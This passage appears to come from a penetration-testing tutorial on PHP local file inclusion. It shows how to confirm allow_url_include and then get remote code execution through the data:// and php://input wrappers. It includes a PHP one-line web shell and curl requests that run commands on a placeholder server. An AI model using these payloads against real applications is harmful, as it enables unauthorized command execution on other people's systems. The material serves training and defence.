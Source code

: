 
Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value:

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Once we have the base64 encoded string, we can decode it and grep for allow_url_include to see its value.

Knowing how to check for the allow_url_include option can be very important, as this option is not enabled by default, and is required for several other LFI attacks, like using the input wrapper or for any RFI attack, as we'll see next. **It is not uncommon to see this option enabled, as many web applications rely on it to function properly, like some WordPress plugins and themes, for example**.

**With allow_url_include enabled, we can proceed with our data wrapper attack. As mentioned earlier, the data wrapper can be used to include external data, including PHP code. We can also pass it base64 encoded strings with text/plain;base64, and it has the ability to decode them and execute the PHP code**.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with ```data://text/plain;base64,```. Finally, we can use pass commands to the web shell with ```&cmd=<COMMAND>```.

We may also use cURL for the same attack, as follows:

```bash
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid 


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Input wrapper

Similar to the data wrapper, the input wrapper can be used to include external input and execute PHP code. **The difference between it and the data wrapper is that we pass our input to the input wrapper as a POST request's data**.

So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the input wrapper also depends on the allow_url_include setting, as mentioned earlier.

To repeat our earlier attack but with the input wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid



uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
